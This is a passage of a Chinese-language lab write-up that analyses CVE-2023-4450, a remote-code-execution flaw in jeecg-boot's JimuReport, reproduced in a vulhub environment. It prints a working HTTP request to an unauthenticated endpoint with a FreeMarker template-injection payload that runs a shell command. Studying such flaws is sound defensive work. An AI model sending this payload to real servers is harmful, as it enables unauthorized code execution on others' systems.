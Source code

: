 
jeect-boot 积木报表漏洞 rce 分析 (CVE-2023-4450)

- - -

# jeect-boot 积木报表漏洞 rce 分析 (CVE-2023-4450)

## 一。漏洞复现

这里使用的漏洞环境时 vulhub 的 jeect-boot。靶场介绍说是：

以下的 Jimureport 组件库中都存在，由于未授权的 API `/jmreport/queryFieldBySql` 使用了 freemarker 解析 SQL 语句从而导致了 RCE 漏洞的产生。

```bash
POST /jeecg-boot/jmreport/queryFieldBySql HTTP/1.1
Host: 127.0.0.1:8080
User-Agent: curl/7.88.1
Accept: */*
Content-Type: application/json
Content-Length: 121
Connection: close

{
    "sql": "<#assign ex=\"freemarker.template.utility.Execute\"?new()>${ex(\"touch /tmp/success\")}",
    "type": "0"
}
```

[![](assets/1704273687-cc31aa873f2ccee487b2392e45af80f5.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240103153336-67c4c87a-aa0a-1.png)
